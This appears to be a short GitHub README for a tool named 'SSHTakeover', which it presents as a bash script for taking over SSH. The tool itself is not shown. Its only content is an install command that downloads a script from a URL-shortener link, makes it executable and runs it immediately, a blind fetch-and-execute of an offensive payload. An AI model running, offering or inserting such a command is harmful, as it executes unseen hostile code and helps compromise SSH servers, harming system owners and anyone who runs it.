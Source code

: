 # SSHTakeover
Takeover SSH with this simple bash script.

### Install
wget https://is.gd/sshpwn && chmod +x sshpwn && ./sshpwn
